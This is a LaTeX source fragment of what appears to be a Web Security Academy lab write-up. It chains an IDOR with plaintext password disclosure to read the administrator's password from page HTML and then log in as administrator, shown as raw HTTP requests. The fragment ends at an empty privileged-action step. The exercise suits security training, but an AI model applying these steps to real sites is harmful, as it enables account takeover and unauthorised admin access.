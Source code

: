 \documentclass[11pt,letterpaper]{article}
\newcommand{\password}[1]{\texttt{\color{passwordcolor}#1}}
\begin{document}
\begin{warningbox}
We accessed the administrator's account page using our low-privilege session, and the response contains the administrator's plaintext password: \password{xK7mN9pQrS2t}

This combines both vulnerabilities:
\begin{enumerate}
  \item IDOR: We accessed another user's account page
  \item Password Disclosure: Their password is visible in the HTML
\end{enumerate}
\end{warningbox}

\subsection{Step 4: Extract Administrator Password}

From the response HTML, extract the password from:
\begin{lstlisting}[language=html]
<input type="password" name="password" value="xK7mN9pQrS2t">
\end{lstlisting}

\textbf{Administrator Password:} \password{xK7mN9pQrS2t}

\subsection{Step 5: Authenticate as Administrator}

\begin{lstlisting}[language=http,caption={Step 5: Login as administrator}]
-- Logout first or use new session --
POST /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=NEWTOKEN456&username=administrator&password=xK7mN9pQrS2t

-- Response --
HTTP/1.1 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=adminSession789

-- Follow redirect --
GET /my-account?id=administrator HTTP/1.1
Cookie: session=adminSession789

-- Now authenticated as administrator --
HTTP/1.1 200 OK

<a href="/admin">Admin panel</a>
\end{lstlisting}

\subsection{Step 6: Execute Privileged Action}
\end{document}
